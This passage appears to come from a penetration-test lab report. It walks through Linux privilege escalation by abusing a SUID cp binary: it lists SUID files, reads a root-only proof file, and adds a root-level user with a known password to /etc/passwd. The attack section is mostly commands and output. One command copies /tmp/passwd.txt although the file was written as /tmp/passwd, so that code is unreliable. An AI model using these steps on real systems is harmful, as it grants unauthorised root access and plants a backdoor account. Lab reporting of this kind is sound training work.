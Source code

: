 ### Privilege Escalation
```bash
find / -perm -u=s -type f 2> /dev/null

# output
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/cp
/usr/bin/umount
/usr/bin/sudo
/usr/bin/chage
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/newgrp
/usr/sbin/grub2-set-bootflag
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
```

Prove cp has SUID-bit set.
```bash
LFILE=/root/proof.txt
cp "$LFILE" /dev/stdout
```

```bash
cat /etc/passwd > /tmp/passwd
echo "victor:$(openssl passwd -crypt password):0:0:victor:/root:/bin/bash" >> /tmp/passwd
cp /tmp/passwd.txt /etc/passwd
su victor
# password = password
```

## Covering Tracks
The house cleaning portions of the assessment ensures that remnants of the penetration test are removed. Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road. Ensuring that we are meticulous and no remnants of our penetration test are left over is important. After the trophies on both the lab network and exam network were completed, Victor removed all user accounts and passwords as well as the Meterpreter services installed on the system. Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items
## Tools Used
* nmap

## Lessons Learned
* Use multiple tools
